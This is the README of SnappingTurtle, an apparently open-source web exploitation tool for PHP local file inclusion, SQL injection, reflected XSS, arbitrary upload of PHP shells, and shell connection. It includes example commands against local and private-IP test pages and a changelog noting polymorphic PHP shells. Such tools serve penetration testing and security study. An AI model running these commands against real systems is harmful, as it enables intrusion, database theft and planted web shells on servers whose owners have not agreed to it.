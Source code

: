 # SnappingTurtle: A Web Exploitation Tool
A cross platform web exploitation tool written in Aphid and compiled into Python. Currently supports exploitation of PHP local file inclusion and SQL injection with more on the way.

## Command Line Arguments
python st.py [exploitation strategy] [url] [inputs]

## Exploitation Strategies

#### lfi
Local file inclusion mode. Attempts to create a shell by exploiting PHP local file inclusion. Injection is performed using the $lfi token.

#### sqli {options}
SQL injection mode. Attempts to automatically exploit SQL injection vulnerabilities by querying information schemas. Injection is performed using the $sqli token.

If used, one of two options must be specified:

*list* - Dumps a list of databases and tables.

*table {name}* - Dumps a database table.

#### xss {server ip}
Cross-site scripting mode. Currently only supports exploitation of reflected XSS via GET. Injection is performed using the $xss token.

If used, a target accessible server IP must be specified for listening.

#### upload
Arbitrary upload. Write data to the server using the -f option.

If used, at least one file must be specified using the -f option. Built-in shells can be injected using the $php token.

#### shell {shell url}
Connects to a previously created shell.

## Url
The url to exploit. Can be injected into using tokens.

## Inputs

#### -g {GET name} {GET value}
GET data in key/value format.
  
#### -p {POST name} {POST value}
POST data in key/value format.

#### --g {GET data}
GET data in Python map format.

#### --p {POST data}
POST data in Python map format.

#### -f {name} {filename} {file data}
POST data as a file.

## Examples

python st.py lfi http://localhost/lfiTest.php?theme=$lfi

python st.py lfi http://localhost/lfiTest.php -g theme $lfi

python st.py lfi http://localhost/lfiTest.php?theme=$lfi%00

python st.py lfi http://localhost/postTest.php --p "{'theme':'$lfi'}"

python st.py sqli list http://localhost/sqliTest.php -g email $sqli

python st.py sqli table sqlitest.users http://localhost/sqliTest.php -g email $sqli

python st.py xss 10.0.0.122 http://10.0.0.145/xss.php -g search $xss

python st.py upload http://10.0.0.145/upload.php -f file shell.php $php

python st.py shell http://10.0.0.145/shell.php

## Changelog

### 0.1.0409.1609
Improved PHP shell polymorphism.

Multiple reliability improvements for LFI to RCE.

Several functional improvements to SQL injection.

### 0.1.0324.1445
Added upload capability.

Added shell connection support.

Improved CLI output.

Flipped GET/POST pair/obj args.

Fixed SQL injection NULL bug.

Fixed bug in table printing.

Disabled urllib2 redirection.

### 0.1.0323.1150
Added support for XSS exploitation.

Several bug fixes.

### 0.1.0322.749
Added support for SQL injection.

Improved LFI exploitation support.

CLI improvements.

Several bug fixes.

### 0.1.0316.3
Initial release, supports LFI exploitation.
